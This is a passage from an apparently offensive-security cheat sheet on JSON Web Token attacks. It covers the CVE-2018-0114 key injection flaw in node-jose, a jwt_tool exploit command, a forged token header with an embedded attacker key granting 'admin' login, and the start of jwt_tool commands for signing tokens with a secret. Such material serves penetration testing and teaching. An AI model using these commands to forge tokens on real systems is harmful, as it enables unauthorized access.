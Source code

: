 
### JWT Signature - Key Injection Attack (CVE-2018-0114)

> A vulnerability in the Cisco node-jose open source library before 0.11.0 could allow an unauthenticated, remote attacker to re-sign tokens using a key that is embedded within the token. The vulnerability is due to node-jose following the JSON Web Signature (JWS) standard for JSON Web Tokens (JWTs). This standard specifies that a JSON Web Key (JWK) representing a public key can be embedded within the header of a JWS. This public key is then trusted for verification. An attacker could exploit this by forging valid JWS objects by removing the original signature, adding a new public key to the header, and then signing the object using the (attacker-owned) private key associated with the public key embedded in that JWS header.


**Exploit**:
```ps1
python3 jwt_tool.py [JWT_HERE] -X i
```

**Deconstructed**:
```json
{
  "alg": "RS256",
  "typ": "JWT",
  "jwk": {
    "kty": "RSA",
    "kid": "jwt_tool",
    "use": "sig",
    "e": "AQAB",
    "n": "uKBGiwYqpqPzbK6_fyEp71H3oWqYXnGJk9TG3y9K_uYhlGkJHmMSkm78PWSiZzVh7Zj0SFJuNFtGcuyQ9VoZ3m3AGJ6pJ5PiUDDHLbtyZ9xgJHPdI_gkGTmT02Rfu9MifP-xz2ZRvvgsWzTPkiPn-_cFHKtzQ4b8T3w1vswTaIS8bjgQ2GBqp0hHzTBGN26zIU08WClQ1Gq4LsKgNKTjdYLsf0e9tdDt8Pe5-KKWjmnlhekzp_nnb4C2DMpEc1iVDmdHV2_DOpf-kH_1nyuCS9_MnJptF1NDtL_lLUyjyWiLzvLYUshAyAW6KORpGvo2wJa2SlzVtzVPmfgGW7Chpw"
  }
}.
{"login":"admin"}.
[Signed with new Private key; Public key injected]
```


## JWT Secret

> To create a JWT, a secret key is used to sign the header and payload, which generates the signature. The secret key must be kept secret and secure to prevent unauthorized access to the JWT or tampering with its contents. If an attacker is able to access the secret key, they can create, modify or sign their own tokens, bypassing the intended security controls.

### Encode and Decode JWT with the secret

* Using [ticarpi/jwt_tool](https://github.com/ticarpi/jwt_tool): 
    ```ps1
    jwt_tool.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoiSm9obiBEb2UifQ.xuEv8qrfXu424LZk8bVgr9MQJUIrp1rHcPyZw_KSsds
    jwt_tool.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoiSm9obiBEb2UifQ.xuEv8qrfXu424LZk8bVgr9MQJUIrp1rHcPyZw_KSsds -T
    